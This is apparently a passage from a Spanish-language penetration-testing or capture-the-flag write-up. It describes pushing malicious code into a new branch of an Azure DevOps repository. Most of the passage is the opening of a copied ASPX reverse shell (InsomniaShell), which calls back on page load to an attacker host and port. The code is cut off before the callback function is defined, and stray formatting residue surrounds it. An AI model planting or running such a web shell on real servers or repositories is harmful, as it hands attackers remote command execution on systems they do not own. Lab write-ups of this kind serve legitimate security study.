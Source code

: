 ```{r, echo = FALSE, fig.cap="Azure DevOps repositories", out.width="90%"}
Una vez la nueva rama creada, le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

```asp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "10.10.14.7"; //CHANGE THIS
            int port = 443; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct STARTUPINFO
    {
        public int cb;
        public String lpReserved;
        public String lpDesktop;
        public String lpTitle;
        public uint dwX;
        public uint dwY;
        public uint dwXSize;
        public uint dwYSize;
        public uint dwXCountChars;
        public uint dwYCountChars;
        public uint dwFillAttribute;
        public uint dwFlags;
        public short wShowWindow;
        public short cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public uint dwProcessId;
        public uint dwThreadId;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct SECURITY_ATTRIBUTES
    {
        public int Length;
        public IntPtr lpSecurityDescriptor;
        public bool bInheritHandle;
    }
    
```
